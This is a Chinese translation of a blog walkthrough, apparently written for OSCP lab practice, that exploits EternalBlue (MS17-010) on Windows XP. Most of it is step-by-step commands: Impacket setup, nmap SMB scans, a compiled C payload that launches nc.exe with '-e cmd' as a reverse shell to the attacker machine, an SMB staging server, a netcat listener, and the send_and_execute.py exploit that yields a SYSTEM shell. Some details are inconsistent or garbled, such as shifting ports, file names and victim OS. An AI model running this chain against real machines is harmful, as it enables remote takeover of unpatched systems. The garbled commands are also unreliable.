










# 利用自定义有效负载为 Windows XP 开发永恒之蓝(MS17–010)

> 原文：<https://infosecwriteups.com/exploit-eternal-blue-ms17-010-for-windows-xp-with-custom-payload-fabbbbeb692f?source=collection_archive---------1----------------------->

**总结**

本文向您展示了如何利用 Windows XP 上的 MS17–010 漏洞。

**免责声明**

本文仅用于信息和教育目的，并且面向那些愿意并好奇了解安全性和渗透测试的人。内容不得用于非法目的。如果你准备好学习新的好东西，那么继续读下去。

**详情**

为什么发这个帖子？

在我的 OSCP 训练期间，我在寻找 XP 目标“Xlicx in Wonderland”时遇到了很多麻烦。经过几个小时的故障排除，它终于工作了。我想让其他人不要浪费宝贵的实验时间。

本演练以这样的方式准备，即它应该始终在运行 Windows XP 或 Windows 2000(“JD”)的任何系统上工作，并且容易受到 MS17–010 的攻击。

我们最终的有效负载将是一个可执行文件:
-将设置一个 netcat 反向 shell(端口 8080)

POC 由两台机器组成:受害者(Windows 7 位)和攻击者机器(Kali Linux 2022.1)。

受害者:
-Windows XP Professional SP3
-IP 地址:192.168.62.149
-安全性:默认 Windows 防火墙=开启
-文件和打印共享=启用

攻击者(针对反向外壳):
- Kali Linux
- IP 地址:192.168.62.161

在本指南中，我交替使用术语“kali”和“LHOST”(我们将使用变量“kali”或“LHOST”)。您可以根据需要更改这个地址，并将代码复制粘贴到 Bash 终端中。

**先决条件**

我们从安装前提条件开始，在我们运行漏洞利用之前，这些前提条件必须到位。

1.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

下载并安装最新版本的 Impacket。设置目录全局可写(是的，这是必要的)。

```
cd /opt
sudo git clone [https://github.com/SecureAuthCorp/impacket.git](https://github.com/SecureAuthCorp/impacket.git)
sudo chmod 777 /opt/impacket -R
```

2.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

安装 virtualenv 工具。

```
sudo apt install virtualenv
```

3.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

在 Impacket 目录中启动 python2 虚拟环境

```
cd /opt/impacket
sudo virtualenv impacket-venv -p $(which python2)
source impacket-venv/bin/activate
```



注意:如果您得到一个 Python 文件未找到的错误，只需再次执行该命令，它将工作。

结果:您应该将提示更改为“(impacket-venv)”。

4.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

在 python2 虚拟环境'(impacket-venv)'中，安装 python2 的 pip

```
cd /tmp                                                                                                                                               
wget  [https://bootstrap.pypa.io/pip/2.7/get-pip.py](https://bootstrap.pypa.io/pip/2.7/get-pip.py) -O /tmp/get-pip.py --no-check-certificate
sudo python2 get-pip.py
```



5.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

在 python2 虚拟环境'(impacket-venv)'内部，安装 impacket 需求。

```
cd /opt/impacket
pip install -r requirements.txt
pip install .
```



**枚举。**

现在，您已经根据运行该漏洞的要求更新了您的系统，您可以开始扫描目标机器(在我们的例子中是 Windows XP)。

1.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

使用 nmap 扫描目标计算机的 SMB 漏洞。

```
cd /usr/share/nmap/scripts
target=192.168.62.149
p=445
scriptargs='smbpass=','smbdomain=mydomain.com','unsafe=1'
for script in $(ls smb* | grep -v -e brute -e flood); do echo "=== $script ==="; sudo nmap $(echo $target) -script=$script -script-args="${scriptargs}" -p $p| grep "|" ; done
```



我们的目标机器易受 MS17–010 攻击！

**有效负载创建(针对 Windows XP)**

我们最终的有效负载将是一个可执行文件，它:

-将设置 netcat 反向外壳(端口 443)

运行该漏洞所需的一切都被复制到 Kali 上的/tmp 目录中。Python 简单 HTTP 服务器将提供这个目录。

7.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

复制并粘贴下面的 C 代码以创建源文件/tmp/backup.c。将“kali=”的值调整为您的 Kali IP 地址。

```
kali=192.168.62.161
portnc2=8080cd /tmp
echo '#include <stdlib.h>'> testexe.c
echo 'int main ()' >> testexe.c
echo '{' >> testexe.c
echo 'int i;' >> testexe.c
echo i = system \(\"START /B \\\\\\\\\\\\\\$kali\\\\\\smb\\\\\\\\nc.exe $kali $portnc2 -e cmd\"\)\; >> testexe.c
echo 'return 0;' >> testexe.c
echo '}' >> testexe.c
```

结果是源文件/tmp/testexe.c



8.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

将/tmp/testexec.c 编译成/tmp/ruby . exe(ruby-xp.exe 是任意的，如果你愿意也可以是别的)。

```
/usr/bin/i686-w64-mingw32-gcc /tmp/testexe.c -o /tmp/ruby-xp.exe
/usr/bin/i686-w64-mingw32-strip /tmp/ruby-xp.exe
```



现在，您已经创建了一个 Windows 有效负载文件。接下来的步骤是准备将由有效负载文件(ruby-xp.exe)调用的相关文件。

**Netcat 反向 shell 负载**

我们最后的有效负载文件(ruby.exe)将在 TCP 端口 8080 上设置一个 netcat 反向 shell。这是通过以下代码行完成的:

I = system(" START/B \ \ \ \ 192 . 168 . 62 . 161 \ \ SMB \ \ NC . exe 192 . 168 . 62 . 161 8080-e cmd ")；

9.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

将 netcat 复制到登台目录(/tmp)

```
cp /usr/share/windows-resources/binaries/nc.exe /tmp
```

**设置所需的监听器**

接下来打开 Bash 终端的一个新实例。为每个“监听器”打开一个新标签。您需要为所有必需的侦听器打开 5 个选项卡。

10.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

设置 SMB 登台程序，以便将重要文件下载到目标。

```
sudo impacket-smbserver -ip 192.168.62.161 -port 445 smb /tmp/
```



11.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

在端口 8080 上启动一个 netcat 监听器来捕获 netcat 连接

```
rlwrap nc -nlvp 8080
```



**准备 MS17–010 exploit**

我们现在已经为有效载荷做好了准备。下一节是关于运行实际的利用。打开一个新的 Bash 终端实例来执行命令。

12.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

下载漏洞。

```
cd /tmp
git clone [https://github.com/helviojunior/MS17-010.git](https://github.com/helviojunior/MS17-010.git)
```

13.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

在 Impacket 文件夹中启动 Python2 环境

```
cd /opt/impacket
sudo virtualenv impacket-venv -p $(which python2)
source impacket-venv/bin/activate
```

14.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

在 Python2 环境'(impacket-venv)'中，使用我们的有效负载文件(/tmp/ruby-xp.exe)对我们的目标(192.168.62.149)运行漏洞利用。

```
python2 /tmp/MS17-010/send_and_execute.py 192.168.62.149 /tmp/ruby-xp.exe
```



忽略错误错误服务超时

查看我们的结果:

SMB 监听器



SMB 连接已建立。

Netcat 监听器


我们有一个系统外壳！

在我的下一篇博客中，我将更多地关注利用 Active Directory。我将向您展示如何使用 PowerShell Empire 作为 mimikatz 的替代方案。

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！